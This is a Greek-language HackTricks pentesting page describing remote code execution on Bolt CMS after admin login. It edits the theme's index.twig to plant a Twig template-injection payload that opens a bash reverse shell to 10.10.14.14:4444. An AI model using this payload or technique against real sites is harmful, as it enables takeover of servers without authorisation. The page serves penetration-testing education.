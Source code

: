 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Μετά την είσοδο ως διαχειριστής (πηγαίνετε στο /bot για να αποκτήσετε την προτροπή σύνδεσης), μπορείτε να αποκτήσετε RCE στο Bolt CMS:

- Επιλέξτε `Configuration` -> `View Configuration` -> `Main Configuration` ή πηγαίνετε στη διεύθυνση URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Ελέγξτε την τιμή του θέματος

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Επιλέξτε `File management` -> `View & edit templates`
- Επιλέξτε τη βάση του θέματος που βρέθηκε στο προηγούμενο βήμα (`base-2021` σε αυτή την περίπτωση) και επιλέξτε `index.twig`
- Στην περίπτωσή μου, αυτό είναι στη διεύθυνση URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Ορίστε το payload σας σε αυτό το αρχείο μέσω [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), όπως: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Και αποθηκεύστε τις αλλαγές

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Καθαρίστε την cache στο `Maintenance` -> `Clear the cache`
- Αποκτήστε ξανά πρόσβαση στη σελίδα ως κανονικός χρήστης, και το payload θα πρέπει να εκτελείται

{{#include ../../banners/hacktricks-training.md}}
